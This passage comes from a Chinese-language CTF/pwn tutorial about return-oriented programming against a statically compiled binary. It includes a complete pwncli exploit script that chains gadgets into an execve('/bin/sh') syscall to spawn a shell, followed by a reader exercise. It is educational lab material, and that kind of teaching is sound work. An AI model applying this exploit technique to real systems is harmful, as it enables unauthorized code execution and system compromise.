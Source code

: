 这时候再用 ROPgadget 来搜索 gadgets 就能发现查找速度慢了很多，这是因为静态编译使得程序中 gadgets 数量更多了，这对于 ROP 利用来说是好事，因为我们可以找到更多的有用 gadgets 了。

来看一下现有条件：

- 静态编译的程序，给我们带来了很多 gadgets（如 `syscall ; ret`）
- 溢出长度多达 0x100-0x20，这意味着我们可以布置很长的 rop 链
- 没有地址随机化，所以 gadgets 的地址都是固定的，用工具找到后直接拿来用就行

于是根据上面的思路构造出如下 rop 链：

```python
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

syscall_ret = 0x0000000000416c44
pop_rdi_ret = 0x0000000000401862
pop_rsi_ret = 0x000000000040f15e
pop_rdx_ret = 0x000000000040176f
pop_rax_ret = 0x0000000000414df4
str_bin_sh  = next(elf.search(b"/bin/sh\x00"))

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(pop_rdi_ret) + p64(str_bin_sh)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(59)
payload += p64(syscall_ret)
s(payload)

ia()
```

读者不妨试试自己构造上面的 rop 链，下面留给读者一个问题和一个挑战：

> [!QUESTION]
> **思考题：实际上源程序中本来是没有字符串 "/bin/sh\x00" 的，这个字符串可以放在栈里吗？如果放在栈里那需要对 exp 做出什么样的改变？简单描述思路即可。**

---
### 挑战：例题 chp1-1-ret2text-revenge-revenge-revenge
